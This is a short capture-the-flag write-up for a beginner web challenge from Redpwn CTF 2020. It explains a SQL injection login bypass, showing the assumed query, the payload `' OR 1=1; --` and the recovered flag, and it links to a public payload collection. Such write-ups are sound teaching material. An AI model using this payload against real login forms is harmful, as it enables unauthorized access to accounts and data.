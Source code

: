 ```yaml
---
layout: writeup
category: Redpwn-CTF
chall_description: https://i.imgur.com/fLvnFA0.png
points: 148
solves: 1007
tags: n00b web sql-injection
date: 2020-07-25
comments: true
---
```


This challenge is just basic SQL Injection. 

The query used could be something like:
```sql
SELECT * 
FROM users
WHERE
    username = '{USER_NAME}' 
    AND
    password = '{PASSWORD}'
...
;
```

If we enter any username, say `admin` and password `' OR 1=1; --`, the query would become
```sql
SELECT * 
FROM users
WHERE
    username = 'admin' 
    AND
    password = '' OR 1=1; --'
...
;
```

Now, the query just returns all the rows in the table because of  `OR 1=1`. That leads to an alert message with the flag `flag{0bl1g4t0ry_5ql1}`.

Various other SQL injection attack payloads can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection).